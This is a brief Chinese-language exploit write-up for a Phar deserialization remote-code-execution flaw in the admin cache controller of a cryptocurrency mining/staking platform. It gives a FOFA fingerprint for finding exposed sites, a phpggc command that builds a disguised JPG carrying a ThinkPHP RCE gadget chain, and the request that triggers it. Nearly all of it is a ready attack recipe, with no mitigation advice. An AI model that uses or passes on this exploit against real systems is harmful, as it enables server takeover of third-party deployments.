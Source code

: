 # 某U挖矿质押单语言系统后台phar反序列漏洞

**位于 /admin/controller/Cache.php 控制器的 deldir 方法存在file_exists 函数，该函数可以直接导致Phar反序列化漏洞触发**

## fofa

```javascript
"/static/index/css/login/framework7.ios.min.css"
```

## poc

首先我们需要用phpggc生成一个绕过图片检测的phar反序列化脚本，用一张正常图片即可

```
./phpggc -pj 123.jpg -o evil.jpg ThinkPHP/RCE2 system whoami
```

```
/admin/cache/deldir?backup_file=phar://图片地址
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408281250731.webp)